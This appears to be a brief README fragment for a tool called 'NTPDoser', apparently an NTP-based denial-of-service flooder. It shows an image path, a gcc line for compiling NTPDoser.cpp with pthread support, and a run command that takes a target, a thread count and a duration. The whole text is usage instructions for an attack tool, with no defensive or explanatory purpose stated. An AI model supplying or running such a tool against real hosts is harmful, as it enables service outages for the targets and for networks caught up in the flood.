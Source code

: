 Compiling.
gcc NTPDoser.cpp -o NTPDoser -lstdc++ -lpthread
Running NTP Doser.
sudo ./NTPDoser [target] [threads] [time]
